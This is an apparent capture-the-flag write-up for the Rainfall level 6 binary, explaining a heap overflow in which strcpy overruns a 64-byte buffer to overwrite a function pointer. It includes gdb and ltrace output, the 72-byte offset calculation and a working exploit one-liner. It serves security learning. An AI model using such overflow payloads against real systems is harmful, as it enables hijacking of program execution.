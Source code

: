 # Rainfall - Level 6

## Executable Analyse

```assembly
(gdb) info function

0x08048454  n
0x08048468  m
0x0804847c  main
```

The main function use malloc to allocate two variables : 
- A string buffer of 64 char
- A function pointer

The function pointer is initialize with the address of the m function, which is executed and displays "Nope".  

The goal is to change the value of this pointer to the address of n, which when executed will display the password.  

## Heap overflow

The security breach relies on the use of `strcpy()` that copies a buffer with a potential infinite size in a buffer defined size. **#philosophy**

Note that dest and f are malloc on the head. Memory allocations are made one after the other on the heap. If we overflow dest, then we will reach f.

```shell
$> ltrace ./level6 abccd
malloc(64)                                                         = 0x0804a008
malloc(4)                                                          = 0x0804a050

$> python 
>>> int("0x0804a050", 16) - int("0x0804a008", 16)
72
```

The attack consists of overflowing the buffer with 72 ramdom characters and write the n() address

```shell
./level6 $(python -c 'print "A" *72 + "\x08\x04\x84\x54"[::-1]')
```